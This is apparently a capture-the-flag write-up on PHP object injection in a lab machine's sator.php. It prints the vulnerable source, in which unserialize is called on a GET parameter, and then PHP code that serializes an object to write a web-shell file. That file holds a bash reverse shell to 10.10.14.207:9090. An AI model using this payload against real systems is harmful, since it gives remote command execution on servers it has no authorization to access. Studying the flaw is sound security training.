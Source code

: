 that write for  a problem with migration for 2 files `sator.php` and `backup`

Going on `10.10.10.23/sator.php` we got

<img src="./img/sator.png"  width="650"/>

search for the backup and found a backup file on `10.10.10.23/sator.php`

```php
// sator.php
<?php

class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }


        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file,
$this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```




# User
We can [exploit](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection) the `unserialize` function.


So i write the following code for serialize  the `DatabaseExport` object and inject a rev shell
```php

class DatabaseExport {
  public $user_file = 'my.php';
  public $data = '<?php system("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.207/9090 0>&1\'"); ?>';
  }

print urlencode(serialize(new DatabaseExport));
```
